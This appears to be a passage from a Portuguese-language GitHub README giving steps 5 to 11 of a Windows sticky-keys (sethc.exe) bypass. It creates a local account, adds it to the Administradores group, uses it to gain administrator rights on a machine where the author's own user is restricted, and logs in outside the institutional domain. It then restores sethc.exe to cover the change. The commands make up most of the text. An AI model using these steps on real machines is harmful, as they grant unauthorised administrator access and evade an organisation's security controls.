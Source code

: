 <br>

- Passo 5: Ainda no prompt de comando é possível adicionar usuários

```powershell
# Adicionar Usuário sem senha, no PC...
net user josesilva * /add    @teste123
```

<br>

- Passo 6: Feito isso é possível adiciona-lo no grupo local dos Administradores:

```powershell
# Vê quais os grupos existentes
net localgroup

# Adiciona usuários ao grupo Administradores
net localgroup Administradores josesilva /add
```

<br>

- Passo 7: Sair do _prompt_ e ir para a tela inicial. Entro no meu usuário, que tem direitos de usuário apenas.

- Passo 8: Agora é possível usar o comando abaixo para adicionar o usuário ao PC local, como o perfil de administrador! Pedirá senha e usuário de administrador: use a que criou "josesilva" !!!!

```powershell
# Gerenciamento do Computador
compmgmt.msc
```

<br>

- Passo 9: Convém deletar usuário.

```powershell
# Deletando Usuário
net user josesilva /del
```

<br>

- Passo 10: Caso não tenha deltado o usuário, é possível sair do _prompt_ e ir para a tela inicial. Uma vez adicionado os usuários, já é possível logar fora do domínio institucional.

```powershell
# Acessar Usuário Local
.\josesilva
```

<br>

- Passo 11:

```powershell
# Encontra a pasta
cd D:
cd windows/system32

# Copiando...
copy sethc_old.exe sethc.exe

# Sair
exit
```
